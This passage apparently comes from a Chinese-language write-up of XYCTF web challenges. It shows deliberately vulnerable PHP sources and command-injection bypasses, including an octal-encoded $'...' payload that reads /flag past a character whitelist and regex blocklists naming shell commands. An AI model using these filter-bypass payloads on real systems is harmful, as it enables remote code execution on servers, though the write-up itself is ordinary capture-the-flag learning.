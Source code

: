 > post: a=implode&b=strrev

![ezpop](https://the0n3.top/medias/xyctf-web/ezpop-f.png)

我尝试发现，可以使用a=implode，把b=system作为函数执行$c,这样也能执行，$d不用管了。这也太好丸了吧

## ezRCE

粘下源码

```php
<?php
highlight_file(__FILE__);
function waf($cmd){
    $white_list = ['0','1','2','3','4','5','6','7','8','9','\\','\'','$','<']; 
    $cmd_char = str_split($cmd);
    foreach($cmd_char as $char){
        if (!in_array($char, $white_list)){
            die("really ez?");
        }
    }
    return $cmd;
}
$cmd=waf($_GET["cmd"]);
system($cmd);
```

题目白名单字符有数字，反斜杠，单引号，美元符和小于号。反斜杠和数字可以实现八进制表示字符串，在linux中，$''其中引号内的八进制数会转化为字符串执行，但是**不能执行带有参数的命令,或者说命令中不能有空格，例如tac /flag，ls -ahl中/flag,-ahl都算参数**，可以命令分为两部分，前面命令后面参数，两部分不能直接连起来，需要空格分隔符，题目没有空格但是有小于号，小于号在linux命令行中可以代替空格的作用  
思路清楚了，使用[字符串在线转八进制数网站](https://www.67tool.com/number/text-to-octal)，八进制数去掉空格添加反斜杠，例如：ls转化后154 163，$'\154\163' 执行ls命令  

构造 tac</flag  
> payload: $'\164\141\143'<$'\57\146\154\141\147'

![ezRCE](https://the0n3.top/medias/xyctf-web/ezrce-f.png)

## 牢牢记住，逝者为大

源码

```php
<?php
highlight_file(__FILE__);
function Kobe($cmd)
{
    if (strlen($cmd) > 13) {
        die("see you again~");
    }
    if (preg_match("/echo|exec|eval|system|fputs|\.|\/|\\|/i", $cmd)) {
        die("肘死你");
    }
    foreach ($_GET as $val_name => $val_val) {
        if (preg_match("/bin|mv|cp|ls|\||f|a|l|\?|\*|\>/i", $val_val)) {
            return "what can i say";
        }
    }
    return $cmd;
}

$cmd = Kobe($_GET['cmd']);
echo "#man," . $cmd  . ",manba out";
echo "<br>";
eval("#man," . $cmd . ",mamba out");
```